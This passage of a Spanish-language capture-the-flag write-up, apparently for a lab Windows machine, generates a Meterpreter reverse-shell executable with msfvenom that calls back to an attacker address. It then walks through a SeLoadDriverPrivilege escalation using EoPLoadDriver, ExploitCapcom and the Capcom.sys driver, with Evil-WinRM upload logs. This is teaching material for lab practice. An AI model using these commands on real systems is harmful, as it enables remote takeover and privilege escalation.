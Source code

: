 ```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.26 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Ahora sí, vamos a seguir el tutorial del artículo para abusar del privilegio `SeLoadDriverPrivilege` y lo primero que debemos hacer es descargar el siguiente archivo [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp) , compilarlo y generar un ejecutable.

 Luego, debemos descargar el siguiente proyecto [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom/ExploitCapcom) que se encuentra desarrollo en Visual Studio. Para que no genere problemas al compilar y generar el ejecutable, recomiendo utilizar [Visual Studio 2019 Community](https://visualstudio.microsoft.com/vs/community/) 

Del archivo `ExploitCapcom.cpp` debemos cambiar la ubicación del comando de la línea 292 por la dirección donde hayamos el payload que creamos anteriormente con `msfvenom`.

```c++
TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\Documents\\shell.exe"); 
```

Una vez cambiemos la la línea 292 del archivo `ExploitCapcom.cpp` debemos compilar y generar un ejecutable.

Finalmente, debemos descargar el siguiente archivo [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) que contiene la configuración de este controlador de dispositivo.

Ahora, vamos a cargar, con evil-winrm, el ejecutable generar del archivo eoploaddriver.cpp, del ExploitCapcom, la shell creada con msfvenom y el archivo capcom.sys.

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> upload loaddriver.exe
Info: Uploading loaddriver.exe to C:\Users\svc-print\Documents\loaddriver.exe         
Data: 15700 bytes of 15700 bytes copied             
Info: Upload successful!                                                             

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload exploitcapcom.exe
Info: Uploading exploitcapcom.exe to C:\Users\svc-print\Documents\exploitcapcom.exe
Data: 18650 bytes of 18650 bytes copied             
Info: Upload successful!     

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload Capcom.sys
Info: Uploading Capcom.sys to C:\Users\svc-print\Documents\Capcom.sys
Data: 14100 bytes of 14100 bytes copied
Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload shell.exe
Info: Uploading shell.exe to C:\Users\svc-print\Documents\shell.exe
Data: 9556 bytes of 9556 bytes copied
Info: Upload successful!
```
